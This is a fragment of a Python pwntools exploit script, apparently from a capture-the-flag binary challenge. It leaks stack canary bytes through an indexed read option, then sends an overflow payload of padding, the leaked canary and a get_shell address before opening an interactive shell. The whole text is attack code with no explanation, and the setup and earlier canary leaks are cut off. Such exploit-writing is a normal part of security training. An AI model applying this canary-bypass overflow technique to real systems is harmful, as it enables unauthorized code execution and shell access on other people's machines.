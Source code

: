 ```
p.sendline(b'P')
p.sendline(b'130')
p.recvuntil(b'is : ')
canary += p32(int(p.recv(2), 16))[:1]

p.sendline(b'P')
p.sendline(b'131')
p.recvuntil(b'is : ')
canary += p32(int(p.recv(2), 16))[:1]

p.sendline(b'E')
p.sendline(b'80')

payload = b'a'*64 + canary + b'a'*8 + p32(get_shell)
p.send(payload)

p.interactive()
```
